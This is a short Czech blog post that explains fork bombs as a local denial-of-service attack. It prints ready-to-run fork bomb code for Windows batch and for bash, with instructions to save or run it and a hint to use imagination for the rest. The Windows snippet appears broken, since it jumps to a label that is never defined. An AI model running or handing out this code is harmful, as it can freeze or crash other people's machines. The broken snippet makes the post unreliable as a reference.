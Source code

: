 ```yaml
---
layout: post
title: Forkbomb
lang: cz
---
```



Forkbomb je lokální DoS útok proti operačnímu systému. Je založený na nekonečné rekurzi forkovací funkce, která má za následek požírání systémových zdrojů, které lze vyřešit až následným rebootem systému.

<div class="warning">Upozornění: Autor tohoto zápisku není zodpovedný za škody vzniklé spouštěním následujících skriptů.</div>

##Implementace

###Windows
<pre class="prettyprint">
start
%0
goto :s
</pre>

###GNU/Linux
<pre class="prettyprint lang-bsh">
:(){ :|:& };:
</pre>

## Použití
Ve windows vytvoříme bat soubor, v linuxu lze spustit příkaz přímo z konzole, nebo vytvořit spustitelný soubor. Zbytek záleží na vaši fantasii.

## Odkazy
1. <http://www.cyberciti.biz/faq/understanding-bash-fork-bomb/>
2. <http://en.wikipedia.org/wiki/Fork_bomb>
